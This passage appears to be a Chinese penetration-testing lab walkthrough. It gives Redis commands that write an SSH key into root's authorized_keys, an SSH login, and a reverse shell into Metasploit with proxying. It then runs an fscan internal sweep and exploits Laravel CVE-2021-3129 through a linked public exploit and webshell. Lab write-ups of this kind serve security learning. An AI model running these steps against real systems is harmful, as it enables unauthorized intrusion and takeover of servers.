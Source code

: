 ```bash
ssh-keygen -t rsa
config set dir /root/.ssh/
config set dbfilename authorized_keys
set sshpubkey "\n\n{生成的公钥}\n\n"
save
```

使用私钥连接web服务器

`ssh -i {私钥} 192.168.0.106`

![](http://qn.laohuan.xin/Snipaste_2022-01-30_14-54-37.png)

反弹shell上线到msf,添加路由和socks代理

![](http://qn.laohuan.xin/Snipaste_2022-01-30_15-57-06.png)

使用fscan发现192.168.52.30为通达OA系统且存在永恒之蓝，192.168.52.20又有一个Laravel的站点。(使用代理+fscan扫不出来东西，将fscan上传至web服务器扫描)

`scp  -i /home/kali/test/test fscan_amd64  root@192.168.0.106:/root`

`./fscan_amd64 -h 192.168.52.0/24`

![](http://qn.laohuan.xin/Snipaste_2022-01-30_16-41-55.png)

同时发现代理服务器配置，原来这台服务器只是作为反向代理服务器使用，而真正的web服务是开启在192.168.52.20那台机器。

![](http://qn.laohuan.xin/Snipaste_2022-01-31_11-43-20.png)

#### 2.Laravel站点

发现192.168.52.0段有两台机器，一台为通达OA,一台为真正的Laravel站点，我们先拿下Laravel的站点。

 Laravel是一套简洁、开源的PHP Web开发框架，旨在实现Web软件的MVC架构。当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar[反序列化](http://so.csdn.net/so/search?q=反序列化&spm=1001.2101.3001.7020)，最终造成远程代码执行。

使用POC拿下shell，使用代理直接打经常导致连接中断，遂将POC传到DMZ的web服务器打(使用哥斯拉2.x版本，3.x版本无法连接)

[http://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP](http://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP)

![](http://qn.laohuan.xin/Snipaste_2022-01-30_17-08-30.png)

成功连接

![](http://qn.laohuan.xin/Snipaste_2022-01-30_17-49-48.png)

发现权限较低，且多数命令不存在，检查发现为docker环境

`cat /proc/1/cgroup`

`ls -lh / .dockerenv`

![](http://qn.laohuan.xin/Snipaste_2022-01-30_18-24-42.png)
